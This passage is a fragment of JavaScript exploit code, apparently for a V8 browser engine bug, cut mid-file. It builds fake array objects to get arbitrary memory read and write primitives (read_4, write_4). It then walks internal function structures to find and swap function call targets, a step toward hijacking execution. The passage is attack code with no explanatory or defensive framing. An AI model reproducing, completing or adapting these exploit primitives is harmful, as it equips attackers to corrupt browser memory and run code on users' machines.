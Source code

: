 ```javascript=
            fakeObjArr[0] = pair_32_to_f(packElementMap, emptyFixedArray)
            return fakeObj[0];
        }

        function read_4(addr)
        {
            fakeObjArr[0] = pair_32_to_f(packDoubleArrMap, emptyFixedArray)
            fakeObjArr[1] = pair_32_to_f(Number(addr) - 0x38, 0x222) // use index 6 since read may change data near the addr
            let ret = ftoi(fakeObj[6]) & 0xffffffffn;
            fakeObjArr[0] = pair_32_to_f(packDoubleArrMap, emptyFixedArray)
            fakeObjArr[1] = pair_32_to_f(fakeObjArrEle + 0x20, 0x222)// elements and length
            return ret;
        }

        function write_4(addr, val)
        {
            fakeObjArr[0] = pair_32_to_f(packDoubleArrMap, emptyFixedArray)
            fakeObjArr[1] = pair_32_to_f(Number(addr) - 8, 0x222)
            let old = ftoi(fakeObj[0])
            old = (old & 0xffffffff00000000n) | (BigInt(val) & 0xffffffffn)
            fakeObj[0] = itof(old)
            fakeObjArr[0] = pair_32_to_f(packDoubleArrMap, emptyFixedArray)
            fakeObjArr[1] = pair_32_to_f(fakeObjArrEle + 0x20, 0x222)// elements and length
        }

        function get_call_target(func)
        {
            let addr = addrOf(func);
            let shared_func_info = read_4(addr + 0x10n);
            let function_data = read_4(shared_func_info + 0x8n);
            let internal = read_4(function_data + 0x4n);
            let call_target = read_4(internal + 0x14n);
            return call_target;
        }

        function swap_call_target(func1, func2)
        {
            let call_target1 = get_call_target(func1);
            let call_target2 = get_call_target(func2);
            // console.log(call_target1.toString(16))
            // console.log(call_target2.toString(16))

            let addr1 = addrOf(func1);
            let shared_func_info1 = read_4(addr1 + 0x10n);
            let function_data1 = read_4(shared_func_info1 + 0x8n);
            let internal1 = read_4(function_data1 + 0x4n);
            // console.log(shared_func_info1.toString(16))
            // console.log(function_data1.toString(16))
            // console.log(internal1.toString(16))

            let addr2 = addrOf(func2);
            let shared_func_info2 = read_4(addr2 + 0x10n);
            let function_data2 = read_4(shared_func_info2 + 0x8n);
            let internal2 = read_4(function_data2 + 0x4n);
            // console.log(shared_func_info2.toString(16))
            // console.log(function_data2.toString(16))
            // console.log(internal2.toString(16))
    
            write_4(internal1 + 0x14n, Number(call_target2));
            write_4(internal2 + 0x14n, Number(call_target1));
        }
        
```